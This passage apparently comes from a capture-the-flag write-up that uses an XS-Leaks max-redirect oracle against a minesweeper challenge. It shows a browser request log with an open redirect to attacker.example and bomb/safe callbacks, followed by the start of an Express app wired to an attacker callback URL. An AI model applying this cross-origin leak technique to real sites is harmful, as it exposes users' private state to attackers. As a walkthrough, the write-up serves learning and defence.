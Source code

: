And here is the same thing when it is a safe spot:

```hl_lines=17 22 25
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=18&url=https%3A%2F%2Fgosweeper.example%2Fboard
// ...
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=4&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://attacker.example/callback/bomb
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=3&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=2&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=1&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=0&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://gosweeper.example/board
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://attacker.example/callback/safe
```

Awesome! Now we just need to put this together to be able to quickly know
whether any tile of our choosing is a bomb.

## Tying It All Together

To more efficiently trigger the bomb oracle, we can create a Node.js app using
[Express] and [Mustache] that receives the tile to be explored through the
redirect, and prints the outcome of the callback:

```js
import express from 'express';
import mustacheExpress from 'mustache-express';

const CHALL_HOST = "https://gosweeper.example";
const CALLBACK_URL = "https://attacker.example/xsleaks-callback";

const userId = "fe24ecea6cf48d9604127b1204bb24fd";

const app = express();
const port = 3000;

app.engine("mustache", mustacheExpress());

app.set('views', "./templates");
app.set('view engine', 'mustache');

app.get('/entry/:tile', (req, res) => {
  const { tile } = req.params;
  res.render("entry", { CHALL_HOST, userId, tile });
```

[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/